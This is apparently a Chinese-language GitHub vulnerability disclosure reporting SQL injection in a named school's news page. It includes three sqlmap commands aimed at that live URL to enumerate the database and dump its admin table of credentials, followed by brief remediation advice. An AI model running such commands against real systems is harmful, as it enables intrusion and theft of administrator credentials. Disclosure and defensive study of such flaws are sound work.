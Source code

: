 # 管理系統可被公告id=注入sql
[<<回前頁>>](https://github.com/William957-web/SGGScyber)
## 詳情:
隨便以一篇文章網址做為範例:http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843  
可以被使用sqlmap這類的工具直接進行注入，進而取得公告管理員帳號密碼  
示範(以sqlmap指令示範):
```
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --tables -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --columns -T admin -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --dump -T admin -D maoshe
```
接者資料庫內容就被攻擊者一覽無遺了  
![sql](https://raw.githubusercontent.com/William957-web/SGGScyber/main/images/sqlinetion.png)  
這個漏洞事關重大，以下會談即如何防範。  
# 解決方法  
最消極但簡單的方法就是對後端資料加密，但是這樣無法防止資料被查看，可以使網頁保有一定安全性。  
再來，從資料庫本身做防範的話，則是使用sql內建語法做修正，可以明確定義那些是管理員才可檢視的內容。  
最後一定要做的，就是白名單過濾
